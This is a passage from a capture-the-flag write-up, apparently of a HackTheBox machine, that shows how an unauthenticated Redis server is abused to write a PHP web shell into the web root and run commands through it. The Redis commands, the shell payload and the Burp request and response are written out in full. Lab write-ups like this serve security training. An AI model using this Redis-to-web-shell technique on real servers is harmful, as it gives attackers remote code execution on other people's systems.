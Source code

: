 ```
Hey no AUTH required
```

It looks like ajax.php is a direct connection to reddish itself and no auth is required. Let's do the commands we know:

	nc localhost 6379
		flushall
		set PleaseSubscribe "<? system($_REQUEST['ippsec']); ?>"
		config set dbfilename ippsec.php
		config set dir /var/www/html
		save	// we've written a configuration file called ippsec.php to /var/www/html
	
	localhost:8001/ippsec.php

```
REDIS0008  redis-ver4.0.9  redis-bits @ ctime K  a used-mem (  aof-preamble   pwn%  
**Warning**: system(): Cannot execute a blank command in **/var/www/html/ippsec.php** on line **2**  
  I? ?  
```

	http://localhost:8001/ippsec.php?ippsec=whoami

```
REDIS0008  redis-ver4.0.9  redis-bits @ ctime¨  a used-mem¸?  aof-preamble   PleaseSubscribe"www-data     `5. 
```

Let's send this into Burp:

```
GET /ippsec.php?ippsec=whoami HTTP/1.1
Host: localhost:8001
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="96"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

<Ctrl+R> to send to Repeater.
<Ctrl+Shift+R> to switch to Repeater tab.
Click Send

```
HTTP/1.1 200 OK
Date: Sun, 09 Jan 2022 12:36:24 GMT
Server: Apache/2.4.10 (Debian)
X-Powered-By: PHP/7.0.30
Vary: Accept-Encoding
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 124

REDIS0008ú	redis-ver4.0.9ú
redis-bitsÀ@úctimeÂ±ÖÚaúused-memÂ¸?
```


[^1]: https://github.com/rebootuser/LinEnum.git
[^2]: https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap
[^3]: https://github.com/jpillora/chisel/releases/
[^4]: https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html